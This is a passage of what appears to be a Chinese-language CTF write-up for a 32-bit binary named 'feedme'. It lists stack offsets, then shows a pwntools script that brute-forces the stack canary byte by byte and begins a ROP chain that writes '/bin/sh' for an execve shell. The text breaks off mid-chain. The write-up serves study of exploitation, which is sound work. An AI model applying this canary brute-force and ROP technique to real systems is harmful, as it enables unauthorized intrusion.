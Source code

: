 输入位于 `0xffffd58c`、canary 位于 `0xffffd5ac`、返回地址位于 `0xffffd5bc`。返回地址偏移量为 `0x30` 字节，canary 偏移量为 `0x20` 字节。

## Exploit

```python
#!/usr/bin/python3

from pwn import *

context(
    os='linux',
    arch='i386',
    log_level='debug',
    terminal='kitty',
    binary=ELF('./feedme')
)

target = process()

recvline      = lambda : target.recvline()
recvuntil     = lambda str : target.recvuntil(str)
send          = lambda str : target.send(str)
sendline      = lambda str : target.sendline(str)
sendlineafter = lambda str1, str2 : target.sendlineafter(str1.encode(), str2.encode())
interactive   = lambda : target.interactive()

padding = b'A' * 0x20

def bruteforce_canary():
    canary = b'\x00'
    recvuntil('FEED ME!\n')
    while len(canary) != 0x4:
        for brute in range(0xff):
            input_size = bytes([0x20 + len(canary) + 0x1])
            attempt = bytes([brute])
            send(input_size + padding + canary + attempt)
            data = recvuntil(b'FEED ME!\n')

            if b'YUM' in data:
                canary += attempt
                break
    return canary

canary = bruteforce_canary()

rop = ROP(context.binary)

MOV_DWORD_PTR_EAX_EDX = p32(0x0807be31)
POP_ECX_EBX = rop.find_gadget(['pop ecx', 'pop ebx', 'ret'])[0]
POP_EDX = rop.find_gadget(['pop edx', 'ret'])[0]
POP_EAX = rop.find_gadget(['pop eax', 'ret'])[0]
INT_0x80 = rop.find_gadget(['int 0x80'])[0]

# /bin
rop.raw(POP_EAX)
rop.raw(0x80e9000)
rop.raw(POP_EDX)
rop.raw(0x6e69622f)
rop.raw(MOV_DWORD_PTR_EAX_EDX)
# /sh
rop.raw(POP_EAX)
rop.raw(0x80e9000 + 0x4)
rop.raw(POP_EDX)
```